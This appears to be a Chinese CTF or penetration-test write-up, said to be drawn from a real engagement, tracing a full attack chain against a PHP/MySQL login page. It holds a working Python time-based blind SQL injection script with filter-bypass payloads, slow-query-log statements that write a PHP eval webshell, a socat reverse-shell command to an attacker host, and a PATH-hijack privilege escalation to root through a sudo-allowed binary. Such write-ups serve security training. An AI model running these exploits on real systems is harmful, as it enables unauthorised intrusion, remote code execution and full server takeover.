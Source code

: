 取材自某次真实渗透，不说两句话，开发与安全缺一不可。



信息收集：

存在SQL注入漏洞，禁用了双写绕过，大小写绕过等常见绕过形式

SQL过滤了常见的SQL语句如空格，>,<,=等符号

通过抓包可以绕过验证码，只要不访问index.php，不刷新验证码，就可以使用同一个验证码。



可以通过异或盲注和benchmark函数进行盲注。

```python
import requests
import time

head = '''Host: 192.168.174.133:14124
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.133:14124
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.133:14124/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7363df76975485eaae419dea46746cb7'''.split("\n")

verifyCode = "tfMs"

url = "http://192.168.174.133:14124/checkLogin.php"

delay = 1.0


headers = {}

for k in head:
	temp = k.split(": ")
	i=temp[0]
	j="".join(temp[1:])
	headers[i] = j

if headers.get("") is not None:
	headers.pop("")



def fetchSQL(sql, pos):
	for i in range(20, 129):
		payload = f"1')/*!UNION*//**//*!SELECT*/(CASE/**/WHEN/**/ASCII(mid(concat(({sql})),{pos},1))^{i}/**/THEN/**/0/**/ELSE/**/BENCHMARK(8000000,md5(1))/**/END)#"
		data = {"user":payload,"password":"1","verifyCode":verifyCode}
		start = time.time()
		connect = requests.post(url,headers=headers,data=data)
		# print(connect.text)
		end = time.time()
		if end - start > delay:
			return i
	return None

def crackSQL(sql):
	strs = ""
	for pos in range(1,100):
		temp = fetchSQL(sql, pos)
		if temp is None:
			break
		print(chr(temp),end="")
		strs += chr(temp)
	print("")
	return strs

def main():
	sql1 = "database()"
	sql2 = "/*!SELECT*//**/group_concat(schema_name)/**/from/**/information_schema.schemata"
	sql3 = "/*!SELECT*//**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'secret'"
	sql4 = "/*!SELECT*//**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'path'"
	sql5 = "/*!SELECT*//**/group_concat(filename)/**/from/**/secret.path"
	sql6 = "/*!SELECT*//**/group_concat(filepath)/**/from/**/secret.path"
	crackSQL(sql1)#手动切换sql

main()
```



发现两个路径

flagggggg__wher_e_14_F5MSsYteUvm21W9w.txt,Mysql_connect_shell.php

访问第一个，得到一句话

```
flag is in the root directory and has root privileges
```

flag以root权限在根目录



访问MySQL那个路径

```php
<?php
require_once "config.php";

if(isset($_POST["sql"])){
    $sql = trim($_POST["sql"]);
    var_dump(fetchOne($sql));
}
else{
    highlight_file(__FILE__);
}

?>
```

发现是执行SQL的后端

sql终端为最高权限，secure_file_priv权限没开启，尝试慢日志注入

```sql
set global slow_query_log=1;
SET GLOBAL slow_query_log_file='/var/www/html/shell.php';
select '<?php eval($_GET[a])?>' or SLEEP(11);
```

分别执行上面3句话

即可访问shell.php

此时获得一句话木马

用一句话木马执行系统命令：apk list，发现有socat

使用socat反弹shell

```shell
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:port
```

反弹shell后提权：

使用sudo -l 查看，发现可以无密码执行/bin/menu

下载下来用ida或者用strings查看menu文件，发现里边的system用的是环境变量，没有用绝对路径

我们修改环境变量中ifconfig的值

```shell
cp /bin/bash /tmp/ifconfig
chmod 777 /tmp/ifconfig
export PATH=/tmp:$PATH
```

此后执行

```shell
sudo menu
```

输入2，获得shell，whoami权限为root

然后用root权限cat /flag.txt即可